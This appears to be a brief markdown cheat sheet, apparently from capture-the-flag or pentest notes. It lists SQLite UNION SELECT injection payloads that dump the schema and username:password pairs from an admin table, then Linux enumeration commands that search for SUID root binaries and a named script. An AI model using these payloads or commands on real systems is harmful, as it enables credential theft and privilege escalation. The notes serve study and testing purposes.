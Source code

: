 ### Testing Stuff

```
' Union Select sqlite_version() '
' Union Select group_concat(sql) FROM sqlite_master '
' Union Select group_concat(username || ":" || password) FROM admintable '
```

Testing if this is done correctly

### System Enumeration

```bash
find / -user tyler 2>/dev/null
find / -user root -perm -4000 — exec ls -ldb {} \;
strings <filename>
find / -name "autoscript.sh"
```

```bash
id
```

